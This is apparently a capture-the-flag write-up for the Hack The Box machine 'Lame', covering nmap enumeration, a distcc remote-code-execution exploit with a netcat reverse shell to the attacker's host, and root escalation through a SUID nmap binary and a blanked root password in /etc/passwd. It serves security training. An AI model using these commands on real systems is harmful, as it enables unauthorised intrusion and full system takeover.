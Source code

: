 # Enumeration
```bash
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h39m11s, deviation: 0s, median: 4h39m11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-28T06:59:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.02 seconds
```

## Initial Shell
I could see that also port 3632 was vulnerable: </br>
![distccd_vuln_1](images/lame/distccd_vuln_1.png) </br>
![distccd_vuln_2](images/lame/distccd_vuln_2.png) </br>
Vulnerabilities nmap script: ```nmap -sS -p3632 -Pn 10.10.10.3 -v --script vuln``` </br> </br>
**Distcc:** </br>
distcc is designed to speed up compilation by taking advantage of unused processing power on other computers.
A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed. </br>
**Exploit CVE 2004-2687:** </br>
distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, 
allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. </br>
I used DistCC Daemon RCE Exploit from [GitHub](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) </br>
And it worked: </br>
![distcc_exploit_works](images/lame/distcc_exploit_works.png) </br>
To get a reverse shell I first started a netcat listenenr on another terminal with```nc -nlvp 1234``` </br> 
And specified this in the -c argument: ```python2 distcc_exploit.py -t 10.10.10.3 -p 3632 -c 'nc -e /bin/sh 10.10.14.27 1234'``` </br>

# Privilege Escalation
I did an enumeration scan with LinPEAS tool, and could see that the nmap binary have SUID. </br>
**SUID** (Set User ID) is a type of permission which is given to a file and allows users to execute the file
with the permissions of its owner. </br> </br>
By using this misconfigured suid I could get root access to the box, the version of Nmap in this box has
an interactive mode, where I was able to execute commands and eventually get root privileges: </br>
![nmap_interactive](images/lame/nmap_interactive.png) </br>
Now to get inside the root user, I made my shell interactive (like I showed previously [here](https://github.com/TalKantor/ctf_writeups/blob/master/HTB/Linux/bank.md)). </br>
edited the /etc/passwd file - and removed the 'x' in the root section: </br> </br>
**From:** root:x:0:0:root:/root:/bin/bash **To:** root::0:0:root:/root:/bin/bash </br>
**Explanation:** The 'x' in this line means that the password is actually stored hashed in the shadow file,
when I removed it I was able to login to root with an empty password. </br> </br>
**Vulnerability Exploited**: Suid Binary Bit Set </br>
**Vulnerability Explanation:** If the binary has the SUID bit set, it does not drop the elevated privileges
and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.
If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default
sh shell to run with SUID privileges. </br>
**Vulnerability Fix:** Remove the unsafe SUID since any low priveleged user has access to it and can
elevate his privileges. </br> </br>
**Proof Of Screenshot:** </br>
![privesc_proof](images/lame/privesc_proof.png) </br>
